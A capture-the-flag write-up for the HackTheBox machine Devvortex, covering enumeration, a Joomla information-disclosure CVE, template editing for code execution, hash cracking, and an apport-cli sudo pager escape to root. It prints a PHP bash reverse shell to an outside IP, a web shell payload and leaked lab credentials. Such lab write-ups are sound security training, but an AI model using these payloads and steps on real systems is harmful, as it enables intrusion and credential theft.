

## Devvortex


## User Flag

### Enumeration
Devvortex is the latest HackTheBox Seasonal machine and we are provided with the IP of:
```
10.10.11.242
```

We run an nmap scan using default and version scripts:

```bash
sudo nmap -sC -sV 10.10.11.242 --min-rate 10000
```

The results only show 2 ports open:
```
# Nmap 7.92 scan initiated Wed Nov 29 09:26:48 2023 as: nmap -sC -sV --min-rate 10000 -o nmap_results.txt 10.10.11.242
Nmap scan report for 10.10.11.242
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 29 09:27:04 2023 -- 1 IP address (1 host up) scanned in 16.19 seconds

```

We see that it redirects to http://devvortex.htb, so we add that to the hosts file.

```bash
sudo echo "10.10.11.242      devvortex.htb" >> /etc/hosts
```

Visiting the website shows that it has very little interactive content there with just static content everywhere.

I tried fuzzing for directories but found nothing worthwhile, however enumerating subdomains using vhost discovery in gobuster did provide with a subdomain for the devvortex domain.

```bash
gobuster vhost --url devvortex.htb --wordlists top1million-subdomains-5000.txt
```

It shows that http://dev.devvortex.htb is a valid subdomain.

We add that as well to our hosts file.

Visiting the page on the browser shows that it is just a bootstrap template with some generic messages. 

I then tried fuzzing for directories here:

```bash
dirb http://dev.devvortex.htb/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Nov 29 10:21:08 2023
URL_BASE: http://dev.devvortex.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://dev.devvortex.htb/ ----
==> DIRECTORY: http://dev.devvortex.htb/administrator/                                                               
==> DIRECTORY: http://dev.devvortex.htb/api/                                                                         
==> DIRECTORY: http://dev.devvortex.htb/cache/                                                                       
==> DIRECTORY: http://dev.devvortex.htb/components/ 

```

We finally have something a potential  attack surface. The administrator page shows us a login page of the Joomla Software:

>Joomla is a free and open-source content management system for publishing web content on websites. Web content applications include discussion forums, photo galleries, e-Commerce and user communities and numerous other web-based applications.

This can potentially host some sensitive information about the server.

Searching on google for any reported vulnerabilities on Joomla tells us that [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) allows unauthenticated users to access website endpoints that may lead to information leakage including passwords.

### Exploit
Exploit of the above vulnerability 
>https://github.com/Acceis/exploit-CVE-2023-23752/blob/master/exploit.rb

Checking this POC tells us that the endpoints =>


    1.http://devvortex.htb/api/index.php/v1/users?public=true

    2. http://devvortex.htb/api/index.php/v1/config/application?public=true

Reveals information about users and passwords of the system.


>lewis:P4ntherg0t1n5r3c0n## 

was found to be the credentials for super-user account.


Using this we can login into the Joomla control panel as admin.

The Joomla admin panel has a variety of options and features and it takes a while to find a potential area to get a foothold on the system. On the left panel navigate to system = > admin templates, where we can see there is one template that is being used for the website called "Atum"

Joomla allows users to edit the template using the inbuilt editor tool. We can add a reverse shell  or command injection payloads into one of the template pages that is using php.



Payloads can be either of these but It is better to use the reverse shell payload to make things easier:

```php
// Reverse shell payload
system('bash -c "bash -i >& /dev/tcp/10.10.16.73/9999 0>&1"')
```

```php
// Command injection payload
if isset($_GET['cmd']) system($_GET['cmd']);
```

Saving the file and visiting the url http://dev.devvortex.htb/administrator/index.php will spawn a reverse shellon our netcat listener on port 9999.

```bash
nc -lnvp 9999
```


We are logged in as the www-data user, which is a low privilege user and does not have access to much of the system files and we must horizontally escalate privileges to gain access to the user flag.

The only other users on the system include, from the /etc/passwd file


    1.root
    2.logan paul


  

Yup, this guy for some reason. He has the username of **logan@devvortex.htb**. Since the php website has a mysql connection to it we can connect to  mysql and hopefully get some passwords,

```bash
mysql -u lewis -p joomla --password P4ntherg0t1n5r3c0n##
```

We connect to the mysql database and see the sd4g_users table by running ```show tables;``` command.

We can dump the contents by running 
```sql 
select * from sd4g_users;
```


Sure enough we have a password hash for logan paul's account, which as expected is a BCRYPT hash.

We can now crack his password using hashcat or john the ripper by using  [Rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) as the wordlist.

```bash
hashcat -m 3200 -a 0 hash ./rockyou.txt
```


And we have cracked logan paul's password: tequieromucho.

We can now login as logan paul into the system using ssh and extract the user flag.

```bash
ssh logan@devvortex.htb -p 22
```

## Root Flag

### Enumeration

Try to find any programs that logan can run as a super user on the system,

```bash
sudo -l
```

Shows us that ```/usr/bin/apport-cli```  is one program that logan can run as root.

>apport automatically collects data from crashed processes and compiles a problem report in /var/crash/. This is a command line frontend for reporting those crashes to the developers

Googling to see if Apport has any known vulnerabilities shows us this:

https://bugs.launchpad.net/ubuntu/+source/apport/+bug/2016023

Essentially, running the apport-cli to check a .crash file in pager mode like the way we use the **less** command allows us to  breakout and escalate privileges.

```bash
$ sudo apport-cli -c xxx.crash
!id
uid=0(root) gid=0(root) groups=0(root)
```
### Exploit
Crash reports are usually stored at ```/var/crash```, in case you dont find a crash file here or anywhere else, you can generate one by simply crashing a process like **sleep** on linux. I did not find any crash filesand hence wrote the script to generate one:

```bash

#!/bin/bash

sleep 1000 &  #Runs Sleep process for 1000s in bg

pid=$!        #Get ID of the process 

kill -SEGV $pid #Cause a crash by sending a SEGMENTATION fault signal

sleep 1  #Sleep to wait for the crash file to be generated.


```

This generates the _usr_bin_sleep_1000.crash file in /var/crash which we can then use for our exploit.

```bash
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep_1000.crash
```
and in the interactive menu press "V" for view,
It takes a while to load  and when finally the crash file is displayed with a "**:**" in the end, use 

```!/bin/sh```

to breakout of the pager view and gain root privilege to the system and extract user flag.

Root PWNED.